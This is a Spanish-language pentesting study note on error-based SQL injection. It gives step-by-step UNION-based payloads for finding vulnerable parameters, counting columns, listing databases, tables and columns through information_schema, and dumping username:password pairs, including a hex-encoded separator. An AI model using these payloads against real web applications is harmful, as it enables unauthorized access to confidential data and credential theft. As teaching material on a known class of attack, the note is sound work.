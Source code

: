 ----------------
- Tags: #OWASP_TOP_10 #vulnerabilidad #hacking #sql  #exploiting 
----------
# Definición

> La **Inyección de SQL basada en errores** es una táctica de ciberataque que explota vulnerabilidades en aplicaciones web al introducir código SQL malicioso a través de entradas no validadas. Esta técnica se aprovecha de las respuestas de error generadas por la base de datos para revelar información sobre la estructura y contenido de la base de datos. Los atacantes utilizan esta información para manipular las consultas y acceder a datos confidenciales, modificar registros o incluso tomar el control del sistema. En caso de no ser capaces de visualizar las respuestas de error, emplearemos [[Non-Error-Based SQL Injection]]

# Pasos
## Detectar si es vulnerable

Podemos detectar si una página es vulnerable a este tipo de [[SQL Injection]] de diferentes maneras. Una de ellas consiste en añadir una comilla simple en la solicitud, y si nos devuelve algún tipo de error avisando de que la sintaxis de la query introducida es incorrecta, posiblemente sea vulnerable. 

```
select column from table where id='$id';    #Si introducimos como id 1' <query a realizar> -- - se cierran las comillas con la introducida y 
								#Podemos ejecutar la query deseada, seguido de un comentario (-- -) para no dar error con la comilla suelta
```

Puede darse el caso, en el que no haga falta el uso de comillas ya que la solicitud que se esté enviando no esté bien programada, como ejemplo podemos ver la siguiente query:

```
select column from table where id=$id;     #Si introducimos como id 1 <query a realizar> se ejecutaría la query deseada
```

Además de estos casos puede ser que tengas que introducir un paréntesis o cualquier otro carácter.

## Deducir el número de columnas existentes en la tabla actual

Nuestra idea como atacantes siempre que comencemos con un ataque de **SQL**, es determinar cuantas columnas hay en la tabla actual. Lo podemos conseguir intentando realizar un ordenamiento de columnas, de manera que podemos ir probando hasta encontrar dicho número. Si empezamos ordenando la tabla por un número grande con el que nos de error, podemos ir bajando hasta encontrar el número exacto de columnas. Se vería algo así:

```
1' order by 50-- -        #ERROR
1' order by 49-- -        #ERROR
1' order by 48-- -        #No ERROR, hay 48 columnas en la tabla actual
```

Podemos tratar de añadir nuevas filas, para tratar de conseguir el número de columnas existentes de la siguiente manera:

```
1' UNION SELECT null-- - No funciona
1' UNION SELECT null,null-- - No funciona
1' UNION SELECT null,null,null-- - Funciona => Hay 3 columnas
```

## Añadir nuevas filas con nuevos datos

Podemos intentar añadir nuevas filas con los datos que queramos, para intentar visualizarla como salida de la query de la siguiente manera: 

```
1' union select NULL,NULL,NULL-- -    #En este caso hemos supuesto que hay 3 columnas, si hubiera más o menos habría que cambiarlo
1' union select 1,2,3-- -    
```

Puede darse el caso de que no se visualicen los datos que acabamos de introducir, y puede ser porque el valor que hemos introducido exista (pe si estamos introduciendo ids, seguramente el 1 exista), así que trataremos de introducir uno que no exista para poder visualizar lo que hemos añadido (con el mismo ejemplo de ids, difícilmente exista el 124125123123).

Si hemos llegado hasta aquí pudiendo visualizar lo que hemos introducido, la cosa se puede tensar, porque si en vez de introducir valores que no nos interesan, pedimos el nombre de la base de datos, las bases de datos existentes u otro campo al que no deberíamos tener acceso, accederíamos a información no autorizada.

## Listar bases de datos existentes

Para conocer el nombre de la base de datos en la que nos encontramos actualmente, podemos ejecutar el siguiente comando:

```
124125123123' union select database()-- -
```

Para listar el nombre de todas las bases de datos existentes en el sistema, podemos ejecutar el siguiente comando:

```
123123' union select group_concat(schema_name) from information_schema.schemata-- -
```

Podemos hacerlo en vez de concatenando el nombre de las bases de datos, listando de una a una:

```
123123' union select schema_name from information_schema.schemata limit 0,1-- -
123123' union select schema_name from information_schema.schemata limit 1,1-- -
123123' union select schema_name from information_schema.schemata limit 2,1-- -
...
```

## Listar las tablas de una base de datos existente

```
123123' union select group_concat(table_name) from information_schema.tables where table_schema='<DATABASE_NAME>'-- -
```

Al igual que para listar las bases de datos, podemos utilizar la opción de limit para ir listando de una en una las tablas existentes.

## Listar las columnas de una tabla de una base de datos existente

```
123123' union select group_concat(column_name) from information_schema.columns where table_schema='<DATABASE_NAME>' and table_name='<TABLE_NAME>'-- -
```

Al igual que para listar las bases de datos, podemos utilizar la opción de limit para ir listando de una en una las columnas existentes.

## Listar el contenido de las columnas de una tabla de una base de datos existente

Para listar el contenido de una columna con nombre *COLUMN_NAME* para la tabla *TABLE_NAME* de la **base de datos actual**, podemos hacer uso del siguiente comando:

```
123123' union select group_concat(<COLUMN_NAME>) from <TABLE_NAME>-- -
```

Si quisiéramos listar el contenido de una columna de una tabla de una base de datos que **no es en la que nos encontramos actualmente**, podemos ejecutar lo siguiente:

```
123123' union select group_concat(<COLUMN_NAME>) from <DATABASE_NAME>.<TABLE_NAME>-- -
```

Si quisiéramos ver el contenido de **dos columnas** (por ejemplo de username y password) separado por dos puntos, podemos hacer uso de la concatenación para ejecutar el siguiente comando:

```
123123' union select group_concat(<COLUMN_NAME1>,':',<COLUMN_NAME2>) from <DATABASE_NAME>.<TABLE_NAME>-- -

#Puede ser que no funcione por las comillas añadidas, así que introducimos los dos puntos en hexadecimal
123123' union select group_concat(<COLUMN_NAME1>,0x3a,<COLUMN_NAME2>) from <DATABASE_NAME>.<TABLE_NAME>-- -
```
